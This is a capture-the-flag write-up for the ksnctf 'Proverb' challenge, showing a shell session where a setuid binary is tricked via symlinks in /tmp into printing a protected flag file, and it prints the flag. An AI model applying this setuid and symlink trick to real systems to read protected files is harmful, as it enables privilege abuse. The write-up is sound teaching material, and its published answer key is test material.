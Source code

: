 ```yaml
---
layout : post
title : ksnctf Proverb write-up
comments : true
---
```


This article is a write-up for [Proverb](http://ksnctf.sweetduet.info/problem/13) at ksnctf.  

Using given information, let's connect to the server `ssh -p 10022 q13@ctfq.sweetduet.info`.  

```
taishi@sirius:~
⇒  ssh -p 10022 q13@ctfq.sweetduet.info
q13@ctfq.sweetduet.info's password: 
Last login: Tue Oct 20 20:12:26 2015 from 10.0.2.2
[q13@localhost ~]$ ls -al
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------  19 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x  17 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt
[q13@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q13@localhost ~]$ file proverb
proverb: setuid executable, regular file, no read permission
[q13@localhost ~]$ ./proverb 
Take heed of the snake in the grass.
[q13@localhost ~]$ ./proverb
Misfortunes never come singly.
[q13@localhost ~]$ ./proverb
Spare the rod and spoil the child.
[q13@localhost ~]$ ./proverb
Nothing ventured, nothing gained.
[q13@localhost ~]$ ./proverb
Take heed of the snake in the grass.
```

Inside, there are three files: `flag.txt` (probably contains FLAG), `proverb` (executable with SUID), and `proverb.txt`. It seems that `proverb` randomly chooses and prints out a line of strings inside `proverb.txt`.  
Since you can't analyze `proverb` using GDB (no read access), let's think about somehow using `/tmp` directory.  


However, although you have a write-permission, you don't have read-permission to `/tmp` directory. Weird. Started suspicious that there might be some files inside `/tmp` that leads you to capture the flag.  


```
[q13@localhost ~]$ ls /tmp
ls: cannot open directory /tmp: Permission denied
```

Now, let's start a guessing game.  

```
[q13@localhost ~]$ cat /tmp/proverb.txt
Please make your own subdirectory.
```

Here you find `proverb.txt`, saying that you should make a subdirectory. Make sense!. Let's create a subdirectory inside /tmp, then make a symbolic link of `~/proverb` and `~/flag.txt` and rename `flag.txt` to `proverb.txt`.  

```
[q13@localhost ~]$ mkdir /tmp/my_dir
[q13@localhost ~]$ cd /tmp/my_dir
[q13@localhost my_dir]$ ln -s ~/proverb .
[q13@localhost my_dir]$ ln -s ~/flag.txt proverb.txt
[q13@localhost my_dir]$ ./proverb
FLAG_XoK9PzskYedj/T&B
```

Flag is: __FLAG_XoK9PzskYedj/T&B__

